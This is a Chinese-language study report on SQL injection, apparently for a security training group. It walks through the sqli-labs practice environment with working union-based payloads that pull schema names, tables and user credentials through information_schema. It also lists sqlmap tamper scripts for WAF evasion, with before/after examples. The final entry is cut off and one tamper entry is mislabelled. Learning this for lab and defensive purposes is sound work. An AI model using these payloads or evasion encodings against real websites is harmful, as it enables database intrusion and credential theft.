[TOC]


# 第六周 任务名称：数据库相关注入语句的收集和学习

1、收集网络上各种 sql 注入时使用的 payload 并理解其适用的环境（检测注入、利用注入）

2、记录 sqlmap 的检测和利用过程中使用的 payload（也算一种 payload 收集方式）

3、理解以上涉及的 sql 语句的意思，其中会涉及不同的数据库、不同注入场景，可以将学习的过程和收集的方式进行整理形成报告，关于 payload 的理解，其中会涉及之前学习的基础。

扩展学习：理解 sqlmap 自带 tamper 的原理，这里通常包含很多数据库的特性，从而实现 payload 变形啥的，用来绕过一些简单的安全检测


**相关问题**
1、本次学习还是围绕数据库进行，两个重点：
一、通过网络进行信息收集，尽可能多的收集网络上公开的有关 sql 注入涉及到的注入 payload，来源可以是：文章中涉及的、github 上某些工具中提供的、某些成品工具中携带的（比如：sqlmap）
二、理解这些 payload 中涉及的数据库使用的难点理解，比如：某些特殊字符在数据库中的作用，之前学习的功能函数在实际注入中的应用、可能存在一些在之前学习中未涉及的数据库功能和特性等
2、学完这些基础之后，可以去理解理解 sqlmap 中自带的一些 tamper 的原理，以及如何编写 tamper，作为扩展训练，有能力的可以研究研究。
3、本次重点不在 sqlmap 的学习，还是基于数据库的学习，通过这个任务，可以锻炼大家的信息收集能力，扩展信息收集的各种方式，巩固之前的学习基础，扩展一些之前未学到的东西。
4、我上传的一些 payload 也是来自于 github 的某些工具中带的 fuzz 字典，学习的方式不是每一个 payload 都去理解，去实践，因为 fuzz 技术就是在未知的情况下，变换各种方式去尝试，不需要每一个 payload 都去思考其场景，模拟其场景，主要还是学习其中的基础，能够做到每一个 payload 中涉及的字符、函数、语句都能理解就够了。
5、关于 sqlmap 中的 payload 如何获取，本身是开源软件，能力强的可以去看代码，从中提取，一劳永逸的方式， 也是可以获取很多闭源产品 payload 的方式，就是部署一个 web 环境，然后设置环境记录所有访问记录，包括 GET、POST、HEAD 等情况，然后用扫描器进行目标扫描，在扫描完成之后，将日志拿出来，分析即可。
6、由于之前的几周任务，越来越多的小伙伴没有完成，所以本次任务难度还是比较高的，学习的周期可以适当加长，目前设定为两周，大家可以好好学习学习，然后等一下之前未能完成前面任务的同学。
7、最近在星球发布了一个作业，关于职业选择和成长路径的，各位已经参加工作的可以发表一些自己的观点和经验，供大家参考学习。


9月8日周会

第六周学习目标解释（看了几个完成的报告，几乎都走偏了，所以再次提醒一下）：

1、如何收集的 sql 语句 payload，记录过程（重点是收集的方式方法）

2、遇到看不懂的 sql 语句记录下，并把它搞懂之后，记录关键信息（重点记录自己开始看不懂，通过学习搞懂的）

3、目标：做好能看懂大部分的 sql 语句，做到给一个复杂的 sql 语句能看的懂，知道是干什么用的，为什么这么写

写报告不需要把所有的收集的内容都贴上，第一个是把收集的过程记录，怎么收集的？在哪收集的？第二个是把难懂的，复杂的，有代表性的语句贴一下，然后做一下解释，把理解的过程记录下就可以了。

--------------

# 一、**sqllib环境搭建**

1、安装环境： windows 下  phpstudy  

2、下载源码：https://github.com/Audi-1/sqli-labs
3、源码解压到 web 目录下（www 目录）
4、修改 sql-connections/db-creds.inc 文件当中的 mysql 账号密码（phpstudy 用户名和密码均为root）

--------------------

# 二、注入的分类及理解

## 1、分类（注入天书）

**（1）基于从服务器接收到的响应**
	▲基于错误的 SQL 注入
	▲联合查询的类型
	▲堆查询注射
	▲SQL 盲注
		•基于布尔 SQL 盲注   #计算机语言中将逻辑运算称为布尔运算(与或非)，将其结果称为布尔值。

		•基于时间的 SQL 盲注
		•基于报错的 SQL 盲注

**（2）基于如何处理输入的 SQL 查询（数据类型）**
		•基于字符串
		•数字或整数为基础的

**（3）基于程度和顺序的注入(哪里发生了影响)**
			★一阶注射
			★二阶注射
		一阶注射是指输入的注射语句对 WEB 直接产生了影响，出现了结果；二阶注入类似存
储型 XSS，是指输入提交的语句，无法直接对 WEB 应用程序产生影响，通过其它的辅助间
接的对 WEB 产生危害，这样的就被称为是二阶注入.

 **（4）基于注入点的位置上的注入**
		▲通过用户输入的表单域的注射。
		▲通过 cookie 注射。
		▲通过服务器变量注射。 （基于头部信息的注射）

## 2、SQLMAP注入分类

- 完全支持**MySQL**，**Oracle**，**PostgreSQL**，**Microsoft SQL Server**，**Microsoft Access**，**IBM DB2**，**SQLite**，**Firebird**，**Sybase**，**SAP MaxDB**和**HSQLDB**数据库管理系统。
- 测试提供了**GET**参数，**POST**参数，HTTP **Cookie**标头值，HTTP **User-Agent**标头值和HTTP **Referer**标头值，以识别和利用SQL注入漏洞。还可以指定要测试的特定参数的逗号分隔列表。

sqlmap能够检测和利用五种不同的SQL注入**类型**：

- **基于布尔的盲注**：sqlmap替换或附加到HTTP请求中受影响的参数，包含`SELECT`子语句的语法上有效的SQL语句字符串，或者用户想要检索输出的任何其他SQL语句。对于每个HTTP响应，通过在HTTP响应头/主体与原始请求之间进行比较，该工具逐字推断注入语句的输出。或者，用户可以提供字符串或正则表达式以匹配True页面。在sqlmap中实现的用于执行此技术的二分算法能够以最多七个HTTP请求获取输出的每个字符。如果输出不在明文普通字符集中，则sqlmap将使用更大范围的算法来检测输出。
- **基于时间的盲注**：sqlmap替换或附加到HTTP请求中受影响的参数，这是一个语法上有效的SQL语句字符串，其中包含一个查询，该查询将后端DBMS保留一定的秒数。对于每个HTTP响应，通过在HTTP响应时间与原始请求之间进行比较，工具推断逐个注入语句的输出。与基于布尔的技术一样，应用了二分算法。
- **基于错误**：sqlmap将受影响的参数替换或附加到特定于数据库的错误消息提示语句，并解析HTTP响应头和正文以搜索包含注入的预定义字符串和子查询语句输出的DBMS错误消息。仅当Web应用程序已配置为公开后端数据库管理系统错误消息时，此方法才有效。
- **UNION基于查询**：sqlmap向受影响的参数追加一个以`UNION ALL SELECT`。开头的语法上有效的SQL语句。当Web应用程序页面直接传递循环中的`SELECT`语句输出`for`或类似内容时，此技术可用，以便查询输出的每一行都打印在页面内容上。sqlmap还能够利用**部分（单个条目）UNION查询SQL注入**漏洞，这些漏洞在语句的输出未在`for`构造中循环时发生，而只显示查询输出的第一个条目。
- **堆叠查询**，也称为小型**支持**：sqlmap测试Web应用程序是否支持堆叠查询，然后，如果它支持，它会附加到HTTP请求中受影响的参数，`;`后跟一个分号（）后跟SQL语句被执行。这种技术是非常有用的运行SQL语句之外`SELECT`，像例如，**数据定义**和**数据操作**语句，可能导致文件系统的读写访问和操作系统命令的执行依赖于底层的后端数据库管理系统和会话用户特权。

# 三、payload收集

```
'or 1=1--+
‘order by 4--+
’union select 1,2,3--+


```


# 四、payload理解

## **1、`'or 1=1--+`**

```
#语句为：
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
此处考虑两个点，一个是闭合前面你的 ‘ 另一个是处理后面的 ‘ ，一般采用两种思路，闭合后面的引号或者注释掉，注释掉采用--+ 或者 #（%23）；在SQL标准中标准的注释方式是"--"注释，即单行注释

#输入http://127.0.0.1/sqllib/Less-1/?id=1'or 1=1 --+
#执行的MYSQL语句：SELECT * FROM users WHERE id='1'or 1=1 -- ' LIMIT 0,1
```


### **sql注入中关于--+的一点探索**

```
在sql-labs游戏中，经常使用--+放在最后注释多余部分，而mysql中的注释符为#和-- 却不能直接使用，以前没学过mysql，一直不理解，也不知道+号的作用，今天有时间特地探索了一下，算是搞明白了其中的原因。
```

在源代码中加入下面两行，使网页能回显我们输入的有效输入和执行的mysql语句，方便分析：

```
echo "有效输入： " .$id."<br>";
echo "执行的MYSQL语句："."$sql"."<br>";
```



**第一关正常地址栏传参如下：**



**猜列数时的使用payload：**

**屏幕显示有效输入为：**

**这里尝试使用#号或者--**
`使用#号`


发现执行的sql语句中没有`#`号

原因是url中#号是用来指导浏览器动作的（例如锚点），对服务器端完全无用。所以，HTTP请求中不包括`#`

将#号改成url的编码`%23`就可以了


`使用--`


`使用--+`



对比上面--的效果，这里发现`＋`号在语句中变成了空格。用来和后面的单引号分隔开，将后面的语句注释。了解原理后便知道了`--`无法使用的原因，是因为`--`与后面的单引号连接在一起，无法形成有效的mysql语句。在mysql中使用这个语句分析原因，输入后回车显示分号没有闭合



所以在注入时我们除了使用`--+`外，也可以使用`--'`来完成sql注入语句


成功执行！


## 2、‘order by 4--+

```
#语句为$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
Order by 对前面的数据进行排序，这里有三列数据，我们就只能用order by 3,超过 3 就会报错。

#输入语句http://127.0.0.1/sqllib/Less-1/?id=1'order by 3--+
#执行的MYSQL语句：SELECT * FROM users WHERE id='1'order by 3-- ' LIMIT 0,1
正常显示说明数据列对，显示错误说明数据列数错误；
```


## 3、’union select 1,2,3--+

```
#语句为$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
union 的作用是将两个 sql 语句进行联合。union 前后的两个 sql 语句的选择列数要相同才可以。

前面order by 测出数据有3列，下面构建 select 1,2,3 语句；用于回显

#输入语句http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2,3--+
#执行的MYSQL语句：SELECT * FROM users WHERE id='-1'union select 1,2,3-- ' LIMIT 0,1

当 id 的数据在数据库中不存在时，（此时我们可以 id=-1，两个 sql 语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的 union 的数据。
```


```
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。请注意，UNION 内部的 SELECT
语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的
列的顺序必须相同。
SQL UNION 语法
SELECT column_name(s) FROM table_name1
UNION
SELECT column_name(s) FROM table_name2
注释：默认地，UNION 操作符选取不同的值。如果允许重复的值，请使用 UNION ALL。
SQL UNION ALL 语法
SELECT column_name(s) FROM table_name1
UNION ALL
SELECT column_name(s) FROM table_name2
另外，UNION 结果集中的列名总是等于 UNION 中第一个 SELECT 语句中的列名。
```

### **SELECT 1,2,3...的含义及其在SQL注入中的用法**

```
http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2,3 --+
```

- 首先，select 之后可以接一串数字：1,2,3…只是一个例子，这串数字并不一定要按从小到大排列，也不一定从1开始，这串数字的值和顺序是任意的，甚至可以是重复的，如：11,465,7461，35 或11,11,11,11，数字串的长度也是任意的，我们想获得多少列的数据，就写多少个数字。

- select语句在指明要查询的内容属性（如select id）后，要加from指明是从哪个数据库表中获得数据，在数据库环境中我们一般会先写一句use xxxdatabase，之后写select from语句直接加当前数据库中的表名就可以了。如果我们没有声明使用哪个数据库，也可以直接写 select xxxx from security.users（假设要从security数据库的users表中获取数据）。而select直接加数字串时，可以不写后面的表名，那么它输出的内容就是我们select后的数字，这时我们写的一串数字就是一个数组（或1个行向量），这时select实际上没有向任何一个数据库查询数据，即查询命令不指向任何数据库的表。返回值就是我们输入的这个数组，这时它是个1行n列的表，表的属性名和值都是我们输入的数组，如下图：
  

- 那么这个东西有什么用呢？在SQL注入时，我们可以利用它来进行一个快速测试，在Union注入时，如果我们通过测试已经知道了前面语句的字段数，就可以写入union 注入语句，但存在一个问题，我们虽然可以通过注入获得想要的信息，但这些信息必须能够返回到我们手中，对于网页来说，如何能够让数据回显是至关重要的。例如一个网站的参数传递执行的查询有3个字段，很可能这些字段不是都显示在网页前端的，假如其中的1或2个字段的查询结果是会返回到前端的，那么我们就需要知道这3个字段中哪两个结果会回显，这个过程相当于找到数据库与前端显示的通道。如果我们直接输入查询字段进行查询，语句会非常冗长，而且很可能还需要做很多次测试，这时候我们利用一个简单的select 1,2,3，根据显示在页面上的数字就可以知道哪个数字是这个“通道”，那么我们只需要把这个数字改成我们想查询的内容（如id,password），当数据爆破成功后，就会在窗口显示我们想要的结果。

  

  ```
  输入1，2，3，4出错；说明只有4个字段
  ```

  

- 如上所述，select直接加数字串不指向任何数据库的表，那么如果在后面加上数据库表的名字呢？结果又会怎么样，我们做一个实验如下图所示：我们查询一下users表中有什么内容，这个表是什么结构


然后我们输入select加数字串：


- 这里我们只输入了4个数字，就返回4列，可以看出，第一行是我们的表格属性，原来的id，
  username等属性被替换成了这些数字串，而且我们输入的数字串长度是任意的，输入几个数字，就会出现几个属性，也就是说返回表的列数是等于我们输入的数字个数的，而行数与原数据库表的结构保持一致，原本有3行数据，输入数字串后仍为3行。

## 4、使用information_schema数据库

```
Mysql 有一个系统数据库 information_schema，存储着所有的数据库的相关信息，一般的，我们利用该表可以进行一次完整的注入。以下为一般的流程。
猜数据库	  select schema_name from information_schema.schemata
猜某库的数据表	select table_name from information_schema.tables where table_schema=’xxxxx’
猜某表的所有列	Select column_name from information_schema.columns where table_name=’xxxxx’
获取某列的内容	Select *** from ****
```

```
字符串连接函数
1. concat(str1,str2,...)——没有分隔符地连接字符串
2. concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
3. group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据
```


**(1)爆数据库**
输入： 其中%27 为‘  ； %20 为空格；

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%
20from%20information_schema.schemata--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata-- ' LIMIT 0,1
```


**(2)爆 security 数据库的数据表(sqllib的数据库为security)**

输入：

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20f
rom%20information_schema.tables%20where%20table_schema=%27security%27--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'-- ' LIMIT 0,1
```


**(3)爆 users 表的列**

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%2
0from%20information_schema.columns%20where%20table_name=%27users%27--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- ' LIMIT 0,1
```


**(4)爆数据**

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
```

**执行的MYSQL语句：**

```
SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2-- ' LIMIT 0,1
```


# 五、sqlmap原理

- 

- - 

    

# 六、拓展  sqlmap tamper原理

sqlmap在默认的的情况下除了使用char()函数防止出现单引号，没有对注入的数据进行修改，还可以使用–tamper参数对数据做修改来绕过waf等设备。

## 6x01 自带tamper列表

```
sqlmap -u [url] --tamper [模块名]
```

sqlmap的绕过脚本在目录`usr/share/golismero/tools/sqlmap/tamper`下 ；

kali在/usr/share/sqlmap/tamper；
可以使用--identify-waf对一些网站是否有安全防护进行试探

| 序号 | 脚本名称                  | 注释                                   |
| :--- | :------------------------ | :------------------------------------- |
| 1    | 0x2char                   | 将每个编码后的字符转换为等价表达       |
| 2    | apostrophemask            | 单引号替换为Utf8字符                   |
| 3    | apostrophenullencode      | 替换双引号为%00%27                     |
| 4    | appendnullbyte            | 有效代码后添加%00                      |
| 5    | base64encode              | 使用base64编码                         |
| 6    | between                   | 比较符替换为between                    |
| 7    | bluecoat                  | 空格替换为随机空白字符，等号替换为like |
| 8    | chardoubleencode          | 双url编码                              |
| 9    | charencode                | 将url编码                              |
| 10   | charunicodeencode         | 使用unicode编码                        |
| 11   | charunicodeescape         | 以指定的payload反向编码未编码的字符    |
| 12   | commalesslimit            | 改变limit语句的写法                    |
| 13   | commalessmid              | 改变mid语句的写法                      |
| 14   | commentbeforeparentheses  | 在括号前加内联注释                     |
| 15   | concat2concatws           | 替换CONCAT为CONCAT_WS                  |
| 16   | equaltolike               | 等号替换为like                         |
| 17   | escapequotes              | 双引号替换为\\\\                       |
| 18   | greatest                  | 大于号替换为greatest                   |
| 19   | halfversionedmorekeywords | 在每个关键字前加注释                   |
| 20   | htmlencode                | html编码所有非字母和数字的字符         |
| 21   | ifnull2casewhenisnull     | 改变ifnull语句的写法                   |
| 22   | ifnull2ifisnull           | 替换ifnull为if(isnull(A))              |
| 23   | informationschemacomment  | 标示符后添加注释                       |
| 24   | least                     | 替换大于号为least                      |
| 25   | lowercase                 | 全部替换为小写值                       |
| 26   | modsecurityversioned      | 空格替换为查询版本的注释               |
| 27   | modsecurityzeroversioned  | 添加完整的查询版本的注释               |
| 28   | multiplespaces            | 添加多个空格                           |
| 29   | nonrecursivereplacement   | 替换预定义的关键字                     |
| 30   | overlongutf8              | 将所有字符转义为utf8                   |
| 31   | overlongutf8more          | 以指定的payload转换所有字符            |
| 32   | percentage                | 每个字符前添加%                        |
| 33   | plus2concat               | 将加号替换为concat函数                 |
| 34   | plus2fnconcat             | 将加号替换为ODBC函数{fn CONCAT()}      |
| 35   | randomcase                | 字符大小写随机替换                     |
| 36   | randomcomments            | /**/分割关键字                         |
| 37   | securesphere              | 添加某字符串                           |
| 38   | sp_password               | 追加sp_password字符串                  |
| 39   | space2comment             | 空格替换为/**/                         |
| 40   | space2dash                | 空格替换为–加随机字符                  |
| 41   | space2hash                | 空格替换为#加随机字符                  |
| 42   | space2morecomment         | 空格替换为/**_**/                      |
| 43   | space2morehash            | 空格替换为#加随机字符及换行符          |
| 44   | space2mssqlblank          | 空格替换为其他空符号                   |
| 45   | space2mssqlhash           | 空格替换为%23%0A                       |
| 46   | space2mysqlblank          | 空格替换为其他空白符号                 |
| 47   | space2mysqldash           | 空格替换为–%0A                         |
| 48   | space2plus                | 空格替换为加号                         |
| 49   | space2randomblank         | 空格替换为备选字符集中的随机字符       |
| 50   | symboliclogical           | AND和OR替换为&&和\|\|                  |
| 51   | unionalltounion           | union all select替换为union select     |
| 52   | unmagicquotes             | 宽字符绕过GPC                          |
| 53   | uppercase                 | 全部替换为大写值                       |
| 54   | varnish                   | 添加HTTP头                             |
| 55   | versionedkeywords         | 用注释封装每个非函数的关键字           |
| 56   | versionedmorekeywords     | 使用注释绕过                           |
| 57   | xforwardedfor             | 添加伪造的HTTP头                       |

## 6x02  常用tamper脚本 示例

```
apostrophemask.py
适用数据库：ALL 
作用：将引号替换为utf-8，用于过滤单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

base64encode.py
适用数据库：ALL 
作用：替换为base64编码 
使用脚本前：tamper("1' AND SLEEP(5)#") 
使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

multiplespaces.py
适用数据库：ALL 
作用：围绕sql关键字添加多个空格 
使用脚本前：tamper('1 UNION SELECT foobar') 
使用脚本后：1 UNION SELECT foobar

space2plus.py
适用数据库：ALL 
作用：用加号替换空格 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT+id+FROM+users

nonrecursivereplacement.py
适用数据库：ALL 
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空） 
使用脚本前：tamper('1 UNION SELECT 2--') 
使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

space2randomblank.py
适用数据库：ALL 
作用：将空格替换为其他有效字符 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Did%0DFROM%0Ausers

unionalltounion.py
适用数据库：ALL 
作用：将union allselect 替换为unionselect 
使用脚本前：tamper('-1 UNION ALL SELECT') 
使用脚本后：-1 UNION SELECT

securesphere.py
适用数据库：ALL 
作用：追加特定的字符串 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1 and '0having'='0having'

space2dash.py
适用数据库：ALL 
作用：将空格替换为--，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

space2mssqlblank.py
适用数据库：Microsoft SQL Server 
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005 
作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Eid%0DFROM%07users

between.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：用NOT BETWEEN 0 AND #替换> 
使用脚本前：tamper('1 AND A > B--') 
使用脚本后：1 AND A NOT BETWEEN 0 AND B--

percentage.py
适用数据库：ASP 
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0 
作用：在每个字符前添加一个% 
使用脚本前：tamper('SELECT FIELD FROM TABLE') 
使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

sp_password.py
适用数据库：MSSQL 
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password 
使用脚本前：tamper('1 AND 9227=9227-- ') 
使用脚本后：1 AND 9227=9227-- sp_password

charencode.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

randomcase.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：随机大小写 
使用脚本前：tamper('INSERT') 
使用脚本后：INseRt

charunicodeencode.py
适用数据库：ASP、ASP.NET 
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3 
作用：适用字符串的unicode编码 
使用脚本前：tamper('SELECT FIELD%20FROM TABLE') 
使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

space2comment.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将空格替换为/**/ 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT/**/id/**/FROM/**/users

equaltolike.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5 
作用：将=替换为LIKE 
使用脚本前：tamper('SELECT * FROM users WHERE id=1') 
使用脚本后：SELECT * FROM users WHERE id LIKE 1

equaltolike.py
测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将>替换为GREATEST，绕过对>的过滤 
使用脚本前：tamper('1 AND A > B') 
使用脚本后：1 AND GREATEST(A,B+1)=A

ifnull2ifisnull.py
适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly) 
测试通过数据库：MySQL 5.0 and 5.5 
作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤 
使用脚本前：tamper('IFNULL(1, 2)') 
使用脚本后：IF(ISNULL(1),2,1)

modsecurityversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：过滤空格，使用mysql内联注释的方式进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!30874AND 2>1*/--

space2mysqlblank.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.1 
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

modsecurityzeroversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：使用内联注释方式（/*!00000*/）进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!00000AND 2>1*/--

space2mysqldash.py
适用数据库：MySQL、MSSQL 
作用：将空格替换为 -- ，并追随一个换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--%0AAND--%0A9227=9227

bluecoat.py
适用数据库：Blue Coat SGOS 
测试通过数据库：MySQL 5.1,、SGOS 
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换= 
使用脚本前：tamper('SELECT id FROM users where id = 1') 
使用脚本后：SELECT%09id FROM users where id LIKE 1

versionedkeywords.py
适用数据库：MySQL 
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11 
作用：注释绕过 
使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#') 
使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

halfversionedmorekeywords.py
适用数据库：MySQL < 5.1 
测试通过数据库：MySQL 4.0.18/5.0.22 
作用：在每个关键字前添加mysql版本注释 
使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 
使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa

space2morehash.py
适用数据库：MySQL >= 5.1.13 
测试通过数据库：MySQL 5.1.41 
作用：将空格替换为#，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

apostrophenullencode.py
适用数据库：ALL 
作用：用非法双字节Unicode字符替换单引号 
使用脚本前：tamper("1 AND '1'='1") 
使用脚本后：1 AND %00%271%00%27=%00%271

appendnullbyte.py
适用数据库：ALL 
作用：在有效载荷的结束位置加载null字节字符编码 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1%00

chardoubleencode.py
适用数据库：ALL 
